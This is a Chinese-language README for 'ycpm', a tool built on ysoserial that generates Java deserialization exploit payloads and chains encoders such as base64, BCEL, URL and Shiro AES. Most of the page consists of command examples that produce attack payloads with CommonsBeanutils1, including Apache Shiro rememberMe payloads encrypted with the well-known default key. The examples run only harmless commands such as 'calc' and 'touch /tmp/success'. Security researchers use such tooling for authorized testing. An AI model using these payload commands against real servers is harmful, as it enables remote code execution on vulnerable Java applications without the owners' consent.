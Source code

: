 # 🌐 ycpm - Ysoserial Chain Process Model

**ycpm** 是一个用于构建和处理 Java 反序列化利用链的工具，支持动态编码、多级编排。  
它基于 [ysoserial](https://github.com/frohoff/ysoserial) 构建，本项目仅用于 Java 安全研究与学习目的，旨在帮助安全研究人员、开发者简单构建安全测试用的反序列化payload。

请勿将本项目中的任何代码或技术用于未授权的测试、攻击、渗透等任何非法用途。

---

## ✨ 功能特性

- ✅ 兼容 ysoserial 的 payload 构造逻辑
- 🔗 支持 encoder 链：base64、bcel、shiro 等组合

---

## 🚀 使用示例

### 1️⃣ 标准 ysoserial 利用链

```bash
java -jar ycpm.jar "CommonsBeanutils1" "calc"
```
等价于：java -jar ysoserial.jar "CommonsBeanutils1" "calc"

### 2️⃣ 构造并进行链式编码

```bash
# 在标准ysoserial的基础上使用base64编码并通过终端输出
java -jar ycpm.jar "CommonsBeanutils1" "calc" "base64->print"

# 使用base64编码并输出到exploit.ser文件
java -jar ycpm.jar "CommonsBeanutils1" "calc" "base64->file:exploit.ser"

# 使用shiro encoder并指定加密用的key，将结果通过终端输出
java -jar ycpm.jar "CommonsBeanutils1" "calc" "shiro:kPH+bIxk5D2deZiIxcaaaA==->print"

# 使用shiro encoder，使用默认key(kPH+bIxk5D2deZiIxcaaaA==)，并将结果进行url编码输出到终端
java -jar ycpm.jar "CommonsBeanutils1" "calc" "shiro->url->print"

# 在此基础上你还可以多次调用编码器，就像这样：
java -jar ycpm.jar "CommonsBeanutils1" "calc" "shiro->url->url->print"
```

## 🧩 Encoder 编码器

本模块实现了一个 **可插拔、可链式组合的编码器框架**，支持多种常见编码方式，适用于反序列化、加密流构造、Payload 编码等场景。各个编码器均支持通过注解注册及自动扫描方式进行加载，可自由组合调用，形成链式调用流程。

如果链条的末尾未使用`file`、`print`的话，则会默认在链条的结尾调用`print`

### ✅ 当前支持的编码器列表

| 编码器名称 | 描述                                                | 输入类型                           | 输出类型         | 示例                                       |
|------------|---------------------------------------------------|--------------------------------|--------------|------------------------------------------|
| `base64`   | 标准 Base64 编码                                      | `Object` / `byte[]` / `String` | `String`     | `base64`                                 
| `shiro`    | Shiro AES 加密 + Base64 编码（用于构造 rememberMe payload） | `Object` / `byte[]`            | `String`     | `shiro`、`shiro:kPH+bIxk5D2deZiIxcaaaA==` |
| `BCEL`     | BCEL 编码器，用于将类字节码转为 `$$BCEL$$` 编码格式                | `Object` / `byte[]`                       | `String`     | `bcel`                                   |
| `URL`      | URL 编码                                            | `String`                       | `String`     | `url`                                    |
| `File`     | 将内容输出到文件                                          | `String`（文件路径）                 | `Boolean`    | `file`、`file:exploit.ser`                |
| `Print`    | 默认使用System.out输出内容                                | 任意                             | `System.out` | `print`                                  |

> 💡 编码器均支持链式组合，例如：Chain -> BCEL 编码 -> Base64 编码。

### 🔗 编码器链式调用示例

```bash
# 生成shiro的默认密钥攻击payload，并打印在终端，下边这两条命令是相等的
java -jar ycpm.jar "CommonsBeanutils1" "touch /tmp/success" "shiro"
java -jar ycpm.jar "CommonsBeanutils1" "touch /tmp/success" "shiro->print"

# 生成shiro指定密钥攻击payload，并打印在终端，下边这两条命令是相等的
java -jar ycpm.jar "CommonsBeanutils1" "touch /tmp/success" "shiro:kPH+bIxk5D2deZiIxcaaaA=="
java -jar ycpm.jar "CommonsBeanutils1" "touch /tmp/success" "shiro:kPH+bIxk5D2deZiIxcaaaA==->print"

# 生成shiro指定密钥攻击payload，并将结果输出到exploit.ser文件
java -jar ycpm.jar "CommonsBeanutils1" "touch /tmp/success" "shiro->file:exploit.ser"

# 在此基础上你还可以多次调用编码器，就像这样：
java -jar ycpm.jar "CommonsBeanutils1" "touch /tmp/success" "shiro:kPH+bIxk5D2deZiIxcaaaA==->url->print"
```

## 🙏 致谢

该项目参考了以下相关内容，在此表示感谢！

- [frohoff/ysoserial](https://github.com/frohoff/ysoserial)